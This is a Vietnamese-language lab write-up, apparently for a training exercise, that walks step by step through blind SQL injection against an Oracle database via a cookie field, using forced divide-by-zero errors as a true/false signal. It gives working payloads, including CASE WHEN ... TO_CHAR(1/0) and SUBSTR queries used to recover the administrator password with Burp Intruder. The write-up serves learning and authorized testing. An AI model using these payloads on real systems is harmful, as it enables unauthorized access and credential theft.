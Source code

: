 # Khai thác SQL Injection (Oracle) — Các bước chi tiết (B1 → B8)

Mô tả: Chuỗi thử nghiệm dùng kênh cookie để khai thác tài khoản `administrator`, xác định độ dài mật khẩu và brute‑force từng ký tự bằng cơ chế gây lỗi (HTTP 500) làm tín hiệu true/false.

---
![ảnh 1](./image/image1.png)
## B1 — Phát hiện lỗ hổng

* Hành động: Thêm `'` vào trường cookie.
* Kết quả: Trang web trả về **HTTP 500**.
* Kết luận: Có **SQL injection** ở trường cookie.
![ảnh 2](./image/image2.png)
## B2 — Thử truy vấn đơn giản
* Hành động: Gửi payload: `'|| (SELECT '') ||'` vào cookie.
* Kết quả: Web vẫn trả **500** (bất thường vì truy vấn hợp lệ).
* Giả thuyết: Cơ sở dữ liệu có thể là **Oracle** (khác cú pháp so với MySQL/Postgres).
![ảnh 3](./image/image3.png)
## B3 — Kiểm chứng Oracle (DUAL)

* Hành động: Gửi `'|| (SELECT '' FROM DUAL) ||'` vào cookie.
* Kết quả: Web **không còn lỗi 500**.
* Kết luận: Hệ quản trị là **Oracle** (DUAL tồn tại và hoạt động).
![ảnh 4](./image/image4.png)
## B4 — Tìm bảng chứa user
* Giả định: Bảng người dùng tên `USERS`.
* Hành động: `'|| (SELECT '' FROM USERS WHERE USERNAME='administrator') ||'`.
* Kết quả: Web **không bị lỗi 500** → có kết quả → bảng `USERS` tồn tại / chứa user.
![ảnh 5](./image/image5.png)
## B5 — Xác định độ dài password bằng tín hiệu lỗi

* Vấn đề: Dùng `LENGTH(password)>40` trả về 200 bất kể đúng/sai.

* Giải pháp: Tạo tín hiệu true/false bằng cách ép gây lỗi chia cho 0 khi điều kiện đúng (HTTP 500 = true).

  Payload mẫu:

  ```sql
  ' || (SELECT CASE WHEN (LENGTH(password) > 40) THEN TO_CHAR(1/0) ELSE '' END FROM USERS WHERE USERNAME='administrator') || '
  ```

  * Nếu điều kiện **true** → thực hiện `TO_CHAR(1/0)` → gây lỗi → **HTTP 500**.
  * Nếu **false** → trả NULL/chuỗi rỗng → **HTTP 200**.

* Áp dụng thử trong Burp Suite: khi kiểm tra `> 40` trả 200 → suy ra **password ≤ 40**.
![ảnh 6](./image/image6.png)
## B6 — Xác định độ dài chính xác bằng Burp Intruder

* Hành động: Dùng **Intruder** brute-force các giá trị độ dài.
* Kết quả: Giá trị `20` trả về **200** → suy ra **độ dài password = 20**.
![ảnh 7](./image/image7.png)
## B7 — Brute-force từng ký tự

* Kỹ thuật: Dùng `SUBSTR(password, x, 1)` để kiểm tra ký tự tại vị trí `x`.

  Payload mẫu kiểm tra ký tự tại vị trí `i`:

  ```sql
  ' || (SELECT CASE WHEN (SUBSTR(password, i, 1) = 'X') THEN TO_CHAR(1/0) ELSE '' END FROM USERS WHERE USERNAME='administrator') || '
  ```

* Thực hiện brute-force theo tập ký tự (charset) cho từng vị trí, thu dần ký tự đúng.
![ảnh 8](./image/image8.png)
## B8 — Lọc theo trạng thái HTTP 500 để thu mật khẩu

* Khi payload gây lỗi (500) → điều kiện đúng → xác định ký tự.
* Thu thập đủ ký tự cho 20 vị trí → ghép thành mật khẩu.
* **Khai thác thành công.**

---

**Ghi chú an toàn:** Chỉ thực hiện trên môi trường được phép (authorized testing). Việc tấn công hệ thống mà không có quyền là bất hợp pháp.
